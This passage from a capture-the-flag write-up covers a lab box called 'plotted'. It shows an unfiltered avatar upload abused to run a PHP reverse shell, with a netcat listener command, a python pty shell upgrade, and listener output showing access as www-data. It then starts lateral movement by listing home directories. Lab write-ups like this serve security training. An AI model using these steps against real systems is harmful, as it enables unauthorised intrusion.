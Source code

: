 As you can see, we can upload a file for our avatar, so I decided to test if there is a file type filter set for it, and there is none, so we can upload a php reverse shell, which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just change the IP and port in this file and it's ready to use.

After you prepared the reverse shell, click on "Browse" and choose your reverse shell. Open a listener (`rlwrap nc -lvnp 4444`) and click on "Update" and you should receive a shell on your listener as `www-data`.

The shell gets called immediately, because when the page is refreshed, the avatar is called too.

The first thing I did with the shell, was spawning a TTY shell using a python one-liner:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

On the listener:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.248.15] 38062
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:16:53 up  1:39,  0 users,  load average: 0.00, 0.27, 0.71
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@plotted:/$
~~~

## www-data -> plot_admin (lateral move)

Now it's time to escalate. First I listed `/home` to see the users on the machine:

~~~
www-data@plotted:/$ ls -al /home
total 16
drwxr-xr-x  4 root       root       4096 Oct 28 07:56 .
drwxr-xr-x 20 root       root       4096 Oct 25 02:05 ..
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28 10:16 plot_admin
drwxr-xr-x  4 ubuntu     ubuntu     4096 Oct 28 10:09 ubuntu
~~~

So we have `plot_admin` and `ubuntu`. By listing the files in `plot_admin`'s home directory, we can see the user flag, so we should probable escalate to this user:

~~~
www-data@plotted:/$ ls -la /home/plot_admin
total 32
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28 10:16 .
drwxr-xr-x  4 root       root       4096 Oct 28 07:56 ..
lrwxrwxrwx  1 root       root          9 Oct 28 10:09 .bash_history -> /dev/null
-rw-r--r--  1 plot_admin plot_admin  220 Oct 28 07:56 .bash_logout
-rw-r--r--  1 plot_admin plot_admin 3771 Oct 28 07:56 .bashrc
drwxrwxr-x  3 plot_admin plot_admin 4096 Oct 28 08:34 .local
-rw-r--r--  1 plot_admin plot_admin  807 Oct 28 07:56 .profile
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 07:25 tms_backup
-rw-rw----  1 plot_admin plot_admin   33 Oct 28 09:55 user.txt
~~~
